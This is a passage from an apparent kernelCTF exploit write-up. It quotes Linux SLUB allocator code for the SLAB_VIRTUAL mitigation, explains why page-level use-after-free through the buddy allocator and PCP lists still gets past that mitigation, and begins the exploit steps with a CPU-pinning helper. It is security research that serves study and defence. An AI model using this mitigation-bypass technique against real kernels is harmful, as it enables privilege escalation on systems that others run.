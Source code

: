 ```c
	list_for_each_entry_safe(slab, tmp, &local_queue, slab.slab_list) {
		struct folio *folio = slab->slab.backing_folio;
		struct kmem_cache *s = slab->slab.slab_cache;

		list_del(&slab->slab.slab_list);
		folio_clear_slab(folio, &slab->slab);
		__free_pages(folio_page(folio, 0), oo_order(slab->slab.oo));

		/* IRQs are already off */
		spin_lock(&s->virtual.freed_slabs_lock);
		if (oo_order(slab->slab.oo) == oo_order(s->min)) {
			list_add(&slab->slab.slab_list, &s->virtual.freed_slabs_min);
		} else {
			WARN_ON(oo_order(slab->slab.oo) != oo_order(s->oo));
			list_add(&slab->slab.slab_list, &s->virtual.freed_slabs);
		}
		WRITE_ONCE(s->virtual.nr_freed_pages, s->virtual.nr_freed_pages +
			(1UL << slab_order(&slab->slab)));
		spin_unlock(&s->virtual.freed_slabs_lock);
	}
	spin_unlock_irqrestore(&slub_kworker_lock, irq_flags);
}
```

As we can see, the freed `virtual_slab` will go to the `virtual.freed_slabs{_min}` of its belonging `kmem_cache` while keeping its `virtual address space`.That's why `SLAB_VIRTUAL` prevents `cross-cache` attack efficiently.

### Why Page UAF works

Now it's not hard to get several conclusions:

- Objects/pages directly allocated from buddy allocator are not protected by `SLAB_VIRTUAL`(true as its name implies). The same range of virtual address can be reused by different objects/pages once the appropriate pages are freed and returned to buddy allocator.
- When a `virtual_slab` is allocated/reused, it will allocate pages from buddy allocator as `backing_folio` and set up ptes between `virt_mapping` and physical pages of `backing_folio`.
- Normally “same order and same migratetype” pages get stored in the PCP list, which allows them to be quickly reused. 

The above is the basic logic of how page UAF (still) works on Google's kernelCTF mitigation instance.  

## Exploit Details

Pin cpu to a certain core to increase the exploit stability as later we need to play with PCP list:

```c
static void pin_cpu(int cpu_n, pid_t pid) {
  cpu_set_t set;

  CPU_ZERO(&set);
  CPU_SET(cpu_n, &set);

  if (sched_setaffinity(pid, sizeof(set), &set) < 0) {
    die("sched_setaffinity: %m");
  }
}

pin_cpu(0, getpid());
```
